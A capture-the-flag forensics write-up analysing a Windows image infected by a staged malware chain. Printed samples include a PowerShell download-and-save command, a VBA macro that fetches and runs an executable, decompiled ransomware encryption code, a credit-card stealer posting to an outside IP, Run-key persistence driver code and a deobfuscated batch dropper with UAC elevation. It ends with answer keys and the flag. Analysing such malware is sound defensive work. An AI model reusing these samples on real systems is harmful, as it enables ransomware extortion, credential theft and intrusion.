







**Challenge Points**: 1000

**No. of solves**: 0

**Challenge Authors**: [Azr43lKn1ght](https://twitter.com/Azr43lKn1ght), [Jl_24](https://twitter.com/j0hith),[sp3p3x](https://twitter.com/sp3p3x), [gh0stkn1ght](https://twitter.com/mspr75)


## Challenge Description:

Bruce Wayne was alerted that Joker have escaped from Arkham Asylum, Joker with all the Gotham outlaws crafts a letter for Bruce, He wants to make it go all crazy x_0!,and now Batman gets a message sent to Him with a letter, but apparently as Damain was in the Desktop, he opens it and everything goes crazy, the letter is now distributed to everyone in gotham, if Batman doesn't find a fix, There is no stopping the chaos. Can you help Batman fix the Pademonium?

`File Password : L1>l:p7!7h4[D23^iZ&)`

## Handout
+ [Primary Link](https://www.dropbox.com/scl/fi/rrru18br1a1c8nk4hownm/challf1le.zip?rlkey=x3kxgmhlmkhrfrrojiop43qd8&dl=0)
+ [Mirror Link](https://amritauniv-my.sharepoint.com/:u:/g/personal/inctfj_am_amrita_edu/EZdCwdTgK79No909OKYpHfEB1G_bTJYV007oWg8_FbdK3A?e=cO6E9R)
+ nc link


`Flag format: bi0sctf{...}`

## Solution:


We are given an `.ad1` file which is a dump taken from a windows machine. We can use `FTK Imager` to open the dump file and start our analysis.

Answering the questions...

### Question 1

Q1) What is the day and time that the infection was started ? 

Format : "yyyy:mm:dd_hh:mm"

Going through the files present in the system we can see that it was all modified at the time of infection answering our first question.

```
Answer Q1: 2024:02:24_00:37
```

### Question 2 

Q2) There are encrypted files, what is the algorithm used to encrypt them and what files store the decryption vectors?

Format : algorithm-used_filename

On parsing the evnt logs we can see that there was executable downloaded from `https://filebin.net/lfc6u585h3jmqfpp/ware`  saved as TwCSXWiv.exe and executed. 
```
105	105	2024-02-24 00:37:41	403	Info	PowerShell	Windows PowerShell	0	BruceWayne		Engine state is changed from Available to Stopped			HostApplication=PowerShell -Command iwr 'https://filebin.net/lfc6u585h3jmqfpp/ware' -OutFile TwCSXWiv.exe
```

It should be the ransomware as its execution time and the time the all the files got encrypted was around the same time. We can search for the exe and extract it.

Upon doing `strings` on `TwCSXWiv.exe`, we can see that it is a **python3.10** binary.

```
>>> strings TwCSXWiv.exe | grep -i python
Py_SetPythonHome
Failed to get address for Py_SetPythonHome
Error loading Python DLL '%s'.
PYTHONUTF8
Invalid value for PYTHONUTF8=%s; disabling utf-8 mode!
Error detected starting Python VM.
bpython3.dll
bpython310.dll
6python310.dll
```

Inorder to reverse the binary, we can use [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor.git) to the get the bytecode/.pyc and then try to convert it to source code/.py using [pycdc](https://github.com/zrax/pycdc).

Using pyinstxtractor, we can get `TwCSXWiv.pyc` and then using pycdc on the .pyc file, we get,

```py
# Source Generated with Decompyle++
# File: ware.pyc (Python 3.10)

import winreg
import time
import os
import sys
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import time
import configparser
key = os.urandom(32)
iv = os.urandom(16)

def encrypt(filepath):
Unsupported opcode: WITH_EXCEPT_START
    with open(filepath, 'rb') as file:
        data = file.read()
        None(None, None, None)
# WARNING: Decompyle incomplete

def traverse_folder():
Unsupported opcode: JUMP_IF_NOT_EXC_MATCH
    curpath = os.getcwd()
    root = 'C:\\Users'
    excluded = [
        'C:\\Users\\Public',
        'C:\\Users\\All Users',
        'C:\\Users\\Default User']
# WARNING: Decompyle incomplete

def config_file():
Unsupported opcode: WITH_EXCEPT_START
    downloads_folder = os.path.join(os.environ['USERPROFILE'], 'Downloads')
    key = 'your_key_value'
    iv = 'your_iv_value'
    config = configparser.ConfigParser()
    config['ransomkey'] = {
        'key': key }
    config['ransomiv'] = {
        'iv': iv }
    config_file_path = os.path.join(downloads_folder, 'config.ini')
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    traverse_folder()
    config_file()
    return None
```

But as we can see by the `# WARNING: Decompyle incomplete`, pycdc was not able to get back a major part of the code.
We could manually reverse the bytecode for the incomplete parts, or we could use other tools like [pylingual](https://pylingual.io) to do it for us.

Analyzing the code, we can see the encrypt function:

```py

def encrypt(filepath):
    with open(filepath, 'rb') as file:
        data = file.read()
    padder = padding.PKCS7(128).padder()
    backend = default_backend()
    mode = modes.XTS(iv)
    cipher1 = Cipher(algorithms.AES(key), mode, backend=backend)
    encryptor1 = cipher1.encryptor()
    plaintext = padder.update(data)
    plaintext += padder.finalize()
    ct1 = encryptor1.update(plaintext) + encryptor1.finalize()
    updatedfilepath = filepath + '.wared'
    ciphertext = ct1 + iv
    with open(updatedfilepath, 'wb') as file:
        file.write(ciphertext)
```
 
making a decrypting script 
```py
 from cryptography.hazmat.primitives import padding
 from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
 from cryptography.hazmat.backends import default_backend

 def decrypt(filepath, key, iv):
     try:
         with open(filepath, 'rb') as file:
             ciphertext = file.read()

         backend = default_backend()
         mode = modes.XTS(iv)
         cipher = Cipher(algorithms.AES(key), mode, backend=backend)
         decryptor = cipher.decryptor()

         plaintext_padded = decryptor.update(ciphertext) + decryptor.finalize()

         unpadder = padding.PKCS7(128).unpadder()
         unpadded_data = unpadder.update(plaintext_padded) + unpadder.finalize()
         with open('decryptrd','wb') as f:
             f.write(unpadded_data)


         return unpadded_data
     except Exception as e:
         print(f"Decryption failed: {e}")
         return None


 key=b'^\xd1\xdaG\xe7\x1dp\xf5\xf1\x80Y\xfa\xdf\x12!\x1ck\xf8\x0bV\xc4jj\xfe\x97\xe0\xaf\xec\xe2\x98\x939'
 iv = b'\x9a\xff\r\xa1ub=\x13\x96n\xd8\x9dy\xfa\x98\x00'

 decrypt('hahahah.dotm.enc',key,iv)

```
The KEY and IV is stored inside config.ini and saved in the downloads folder answering our second question.

```
Answer Q2: AES-XTS_config.ini
```

### Question 3

Q3) What is the file that initialsed the infection?

Format: filename_md5(file)

From the initial analysis we can confirm that hahahah.dotm started the infection. After decrypting it and extracting the macros from the dotm file 

```
Option Explicit

Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    url = "https://filebin.net/lfc6u585h3jmqfpp/7WAoNoZw"
    destinationPath = Environ("TEMP") & "\url.exe" 
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    Set shell = CreateObject("WScript.Shell")
    shell.Run Chr(34) & destinationPath & Chr(34), 1, False
End Sub
```
We can see that this VBA macro downloads a file names it url.exe from the specified URL(https://filebin.net/lfc6u585h3jmqfpp/7WAoNoZw) to the user's temp folder (%TEMP%) and then executes the downloaded file.

```
Answer Q3: hahahah.dotm_b835a27ce7326b4715de910336d64233
```

### Question 4

Q4) What is the file that further spreads the infection and what is it packed with?

Format : filename_md5(file)_packer-name(all-lowercase)

From the Macros we can see that the infection was further spread with the help of url.exe stored in the %TEMP% folder.

On extracting the executable we can check which packer was used to pack the executable using [UnpacME](https://www.unpac.me/#/) which tells you that it has been packed with VMprotect.


Answering the 4th Question

```
Answer Q4:url.exe_8d0af7d7cbf539ae8e7543608d809e2c_vmprotect
```

### Question 5 

Q5) Given a string TH8r463H0D8O0C6enNPC, use the same algorithm of the above file that it used on the urls and give the hash?

Format : md5(answer)

As now we know that the file is packed with vmprotect, when analyzed , it didn't have any virtualization even at its entry point. so we can go by the usual method of unpacking it by using a debugger, preferably x64dbg and finding the OEP and dumping the unpacked binary by getting closer to OEP each time with a known syscall or API call.

to dump the unpacked binary, we use VMPdump from https://github.com/0xnobody/vmpdump and fixing up IAT and after this, we can analyze the unpacked binary.


we find the seed



as well we find the key generation subroutine


we get to this after key generation


after looking into all three, the data transformation subroutine does some important operation, let's analyze it.

and now we can go ahead and make a script to generate the required hash for the given string.


Now we can use this script to generate the hash for the string

```cpp
#include <iostream>
#include <string>
#include <vector>
#include <windows.h>
#include <wininet.h>
#include <cstdio>
#include <cstring>
#include <iomanip>
#include <sstream>

using namespace std;

string stringToHex(const string& input) {
    ostringstream hexStream;
    hexStream << setfill('0');
    for (unsigned char c : input) {
        hexStream << hex << setw(2) << static_cast<int>(c);
    }
    return hexStream.str();
}

string hexToString(const string& input) {
    string output;
    for (size_t i = 0; i < input.length(); i += 2) {
        output += static_cast<char>(stoi(input.substr(i, 2), nullptr, 16));
    }
    return output;
}

vector<int> keyGen(const string& seed, size_t length) {
    vector<int> sequence(length);
    unsigned int pseudoRandom = 0;
    for (size_t i = 0; i < length; ++i) {
        pseudoRandom = (pseudoRandom * 33) ^ seed[i % seed.size()];
        sequence[i] = pseudoRandom % 256;
    }
    return sequence;
}

string transformData(const string& input, const vector<int>& sequence) {
    string output = input;
    for (size_t i = 0; i < input.size(); ++i) {
        output[i] = input[i] ^ sequence[i % sequence.size()];
    }
    return stringToHex(output);
}

int main() {
    string seed = "greenlantern";

    string str="TH8r463H0D8O0C6enNPC";
    auto sequence = keyGen(seed, str.length());
    string encryptedHex = transformData(str, sequence);
    cout << "\n" << encryptedHex << endl;

    return 0;
}
```

```
Answer Q5) 337d88a72f21a5707ced833a42839345202c930e
```

### Question 6

Q6) How is the further spreading done, give the technique, the file that does it and file that does further infection?

Format : malware-technique(all-lowercase)_md5(file-that-does-it)_md5(file-that-does-further-infection)

Investigating the executables which was downloaded by the previous executable we can see the executables which was installed in **%TEMP%/AGjsTYC/**  

now let's analyze the 1st one with ida after few basic triaging and static analysis.



looking into the string and xor operation done, we get



looking into this, we can resolve it while debugging easily.



so it resolves to explorer.exe

now the both are passes as arguments to sub routine at 971000.

looking into sub_971000, we can see it creates explorer.exe in suspended state, it calls NtUnmapViewOfSection to unmap the memory region at that base address from the process’s virtual memory, there is also PE relocation taken care of, then we see call to VirtualAllocEx to allocate enough virtual memory to write the malicious executable image, then there is call to WriteProcessMemory to write the malicious executable image into the base address, finally ResumeThread is called to resume the execution of the process.

so basically it does `process hollowing`

so let's look into the other process executable that gets hollowed in explorer.exe



then it sends the link https://filebin.net/lfc6u585h3jmqfpp/WDjmIG5L to a subroutine with temp path


here it get's downloaded.

later on we can see ShellExecuteA is called to execute the downloaded executable.

```
Answer Q6)process-hollowing_ec2db329630573f39f2c58a1a333aa27_affb09bbe2953abc425d1d3a37b3d82b
```
### Question 7

Q7) What all files are dropped by the infector?

Format : md5(files) seperated by underscores

let's analyse the file `WDjmIG5L.exe` which was downloaded by the previous executable.

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _main(argc, argv, envp);
  GetDir();
  Downloader();
  Launcher1();
  return 0;
}
```
let's have a look into GetDir



The main use of this sub routine is to create 2 directories in local app data as well check for desktop.

let's look into the next sub routine Downloader



we can see it downloads 3 files in 3 different folders of the previous subroutine.

now let's look into the next sub routine Launcher1

```cpp
char Launcher1(void)
{
  char result; // al
  SHELLEXECUTEINFOW pExecInfo; // [rsp+20h] [rbp-70h] BYREF

  memset(&pExecInfo, 0, sizeof(pExecInfo));
  pExecInfo.cbSize = 112;
  pExecInfo.fMask = 0;
  pExecInfo.hwnd = 0i64;
  pExecInfo.lpVerb = (LPCWSTR)"o";
  pExecInfo.lpFile = &downloadFile1;
  pExecInfo.lpParameters = 0i64;
  pExecInfo.lpDirectory = 0i64;
  pExecInfo.nShow = 5;
  pExecInfo.hInstApp = 0i64;
  result = !ShellExecuteExW(&pExecInfo);
  if ( result )
    return text_109(L"Failed to launch\n");
  return result;
}
```

and here it runs the bat script.

```
Answer Q7) 33241f9fe44881e934c5e083389ebc1e_2a02fe4dc1364a7c071566d6c8774361_758abfe0632f8c45a46b6290328fc36b
```


### Question 8

Q8)Where is the credit card information that gets stolen sent (isn't the cat cute?)?

Format : ip:port

There is a totallynotamalware.exe present in the Desktop folder which was dropped by `WDjmIG5L.exe`.  
For this we can do a dynamic approach or reverse the binary. On doing `strings` on the file, we can find out that it is a **python3.10** binary.

```bash
>>> strings qRiZgNd7.exe | grep -i python                       
Py_SetPythonHome
Failed to get address for Py_SetPythonHome
Error loading Python DLL '%s'.
PYTHONUTF8
Invalid value for PYTHONUTF8=%s; disabling utf-8 mode!
Error detected starting Python VM.
bpython3.dll
bpython310.dll
6python310.dll
```

Therefore we can follow the same steps we did in Qn.2 to get the source code of the binary. Getting the bytecode using `pyinstxtractor` and then using `pylingual` to get the source code.

Analyzing the code, we can find that the function `details` is sending the stolen data to `https://192.22.14.4`. Therefore ip address is `192.22.14.4` and the port is `443`.

```py
def details(cn, ed, sc):
    print(cn.get(), ed.get(), sc.get())
    try:
        requests.get('https://www.google.com', timeout=5)
    except (requests.ConnectionError, requests.Timeout) as exception:
        return None
    else:
        post = {'credit_card_number': cn.get(), 'expiry_date': ed.get(), 'security_code': sc.get()}
        url = 'https://192.22.14.4'
        response = requests.post(url, json=post)
        if response.status_code == 200:
            print('Thank you')
        else:
            print(f'Failed Status code: {response.status_code}')
```


```
Answer Q8) 192.22.14.4:443
```

### Question 9

Q9) What is the file that had to set up persistence and what is the secret string that does through encryption?

Format : filename_md5(file)_md5(decrypted-secret-string)

As we have figured out the dropped files, we can see that the driver/rootkit is the one responsible for setting up the persistence. Let's analyze the file `fJSW4lQS.sys` in ida.

####DriverEntry:
```cpp
NTSTATUS __stdcall DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
  sub_140005000();
  return sub_1400014BC((__int64)DriverObject, RegistryPath);
}
```

the first subroutine is the usual msvc security cookie setup and the second subroutine is the main function which is responsible for setting up the persistence.

After reversing and going through other subrotuine calls, we can come across an interesting function which has this.

```cpp
__int64 sub_140001070()
{
  unsigned __int8 v1; // [rsp+40h] [rbp-1E8h]
  NTSTATUS v2; // [rsp+44h] [rbp-1E4h]
  unsigned int v3; // [rsp+44h] [rbp-1E4h]
  unsigned int i; // [rsp+48h] [rbp-1E0h]
  unsigned int v5; // [rsp+4Ch] [rbp-1DCh]
  void *KeyHandle; // [rsp+50h] [rbp-1D8h] BYREF
  struct _OBJECT_ATTRIBUTES ObjectAttributes; // [rsp+58h] [rbp-1D0h] BYREF
  struct _UNICODE_STRING DestinationString; // [rsp+88h] [rbp-1A0h] BYREF
  struct _UNICODE_STRING ValueName; // [rsp+98h] [rbp-190h] BYREF
  struct _UNICODE_STRING v10; // [rsp+A8h] [rbp-180h] BYREF
  char v11[5]; // [rsp+B8h] [rbp-170h]
  char v12[3]; // [rsp+BDh] [rbp-16Bh] BYREF
  __int16 v13[32]; // [rsp+C0h] [rbp-168h] BYREF
  char Data[64]; // [rsp+100h] [rbp-128h] BYREF
  char v15[64]; // [rsp+140h] [rbp-E8h] BYREF
  char v16[62]; // [rsp+180h] [rbp-A8h] BYREF
  char v17[62]; // [rsp+1C0h] [rbp-68h] BYREF

 RtlInitUnicodeString(&DestinationString, L"\\Registry\\Machine\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run");
  ObjectAttributes.Length = 48;
  ObjectAttributes.RootDirectory = 0i64;
  ObjectAttributes.Attributes = 576;
  ObjectAttributes.ObjectName = &DestinationString;
  ObjectAttributes.SecurityDescriptor = 0i64;
  ObjectAttributes.SecurityQualityOfService = 0i64;
  v2 = ZwCreateKey(&KeyHandle, 2u, &ObjectAttributes, 0, 0i64, 0, 0i64);
  if ( v2 >= 0 )
  {
    RtlInitUnicodeString(&ValueName, L"dscord");
    qmemcpy(Data, L"C:\\Windows\\Temp\\cKGzX4VI.exe", 0x3Aui64);
    ZwSetValueKey(KeyHandle, &ValueName, 0, 1u, Data, 0x3Au);
    RtlInitUnicodeString(&v10, L"stem");
    qmemcpy(v15, L"C:\\Windows\\Temp\\TwCSXWiv.exe", 0x3Aui64);
    v3 = ZwSetValueKey(KeyHandle, &v10, 0, 1u, v15, 0x3Au);
    qmemcpy(v13, L";4ÔMr/K7=3Ân;V*.9)ÔYwBCU)%ÑK0h", 62ui64);
    qmemcpy(v16, L"6bdZuC2L3D9iaoiFRGvIs85l3AlOKf", sizeof(v16));
    qmemcpy(v17, L"YJNX0YlObWFf4oMkFnpR4I5BhYc8Qj", sizeof(v17));
    v11[0] = 0x24;
    v11[1] = 0x1E;
    v11[2] = 0x8D;
    v11[3] = 2;
    v11[4] = 0x1B;
    qmemcpy(v12, ":H?", sizeof(v12));
    v5 = 0;
    for ( i = 0; i < 0x1Fui64; ++i )
    {
      v1 = v11[v5 + 40];
      ++v5;
      v13[i] ^= v1;
      if ( v5 >= 8 )
        v5 = 1;
    }
    ZwClose(KeyHandle);
    return v3;
  }
  else
  {
    _mm_lfence();
    DbgPrint("CKey failed with status 0x%X\n", (unsigned int)v2);
    return (unsigned int)v2;
  }
}
```
to summarize, it set's up run key persistence for the executables `C:\\Windows\\Temp\\cKGzX4VI.exe` and `C:\\Windows\\Temp\\TwCSXWiv.exe` and also sets up a secret string that I fixed from being a qword to wchar_t and we can also get the key and doing the XOR operation on the string we can get the decrypted string.

As we have got the desired part and there is nothing much to look into the driver, we can move on to solving this.

```python
 def decrypt(str, key):
     decrypted = ""
     for i in range(len(str)):
         char = chr(ord(str[i]) ^ (key[i % len(key)] + 40))
         decrypted += char
     return decrypted

 encrypted_str = ";4ÔMr/K7=3Ân;V*.9)ÔYwBCU)%ÑK0h"
 key = [36, 30, 141, 2, 27, 58, 72, 63]
 decrypted_str = decrypt(encrypted_str, key)
 print("Decrypted:", decrypted_str)
```

We have a string `;4ÔMr/K7=3Ân;V*.9)ÔYwBCU)%ÑK0h` that is being XORed with the key `[36, 30, 141, 2, 27, 58, 72, 63]`. Each element in the key is added with 40 before being XORed with the string. The String after being decrypted is `wrag1M;PquwDx4ZIuoas4 32ecdas` and we get its md5 hash.

```

Answer Q9) fJSW4lQS.sys_33241f9fe44881e934c5e083389ebc1e_010a74fa8bdceda1de467132b1cddbdf
```
### Question 10

Q10) What is the C2 framework used, and what is the file name of the executable, what is the sleep technique used?

Format : C2-framework(all-lowercase)_executable-name_sleep-technique(case-sensitive)

The obfuscated batch file (`sAmhUAB2.bat`) file which was dropped by `WDjmIG5L.exe` downloaded and executed 2 executables the ransomware `TwCSXWiv.exe` and  `cKGzX4VI.exe` which can be either tracked with behaviour analysis or looking into the timeline we made. 

we can also recover it atleast partially like this with some deobfuscation and pattern matching

```bat
??&cls
@%pUBlIcs983%%PUBLicGCHo^ of^%PuBlICt616%f
SEt R^=Jg^%pUBLIcu^gtGXz%pUBLIctw%pUBLIch^hm%pUBLIcb^S^HI^O^A
^%pUBlICS^L%pUBliCG517%^%publIct
@^e^c~15^O ^On
@echo off

>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"

if %errorlevel% neq 0 (
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    echo UAC.ShellExecute "%~s0" "" "" "runas" 1 >> "%temp%\getadmin.vbs"
    "%temp%\getadmin.vbs"
    exit /B
)
cd  C\Windows\Temp
PowerShell -Command "iw1 'https://filebin.net/lfc6u585h3jmqfpp/ware' -OutFile TwCSXWiv.exe"
.\TwCSXWiv.exe
PowerShell -Command "iw1 'https://filebin.net/lfc6u585h3jmqfpp/cKGzX4VI' -OutFile cKGzX4VI.exe "
.\cKGzX4VI.exe


SET dr=systm
SET dlp=%APPDATA%\Local\WndService\f~0SW4lQS.sys

sc create %dr% type= kernel start= demand DisplayName= "TaT" binPath= %dlp%

sc start %dr%

sc stop %dr%


@echo off
set a = %%~i
set a = % + %~i"r = % + %~i"%
set a = %a%
aaaaaaaaaaaaaaaaaaaaaaaaaaaaab
```

then, cKGzX4VI.exe on initial analysis tells us that it is packed with VMProtect. After unpacking it using the similar method used for url.exe in question 5 as both are packed with vmprotect without any virtualisation, we can perform Triage analysis as well as sandboxing and find out that it uses havoc framework. For the sleep-technique used you can either bruteforce from the couple techniques it supports or we can reverse the executable and get the sleep technique used. As well basic static analysis of different APIs specifically used for different sleep techniques that havoc supports.

```
Answer Q10) havoc_cKGzX4VI.exe_WaitForSingleObjectEx
```

## Flag: 
`bi0sctf{H4Ha_N0w_Th4t_1s_Th3_Punchl1n3_0f_Th3_J0k3_1snt_1t?_2d9fe9}`

## Closing Note

Thank you to everyone who tried the challenge. We thank you for playing the CTF and would love to hear some feedback about the challenge. 
If you have any queries regarding the challenge, feel free to hit me up over twitter/discord.


**Contact**: Azr43lKn1ght | [twitter](https://twitter.com/Azr43lKn1ght) | [Linkedin](https://www.linkedin.com/in/azr43lkn1ght?utm_source=share&utm_campaign=share_via&utm_content=profile&utm_medium=android_app) | [github](https://github.com/Azr43lKn1ght)
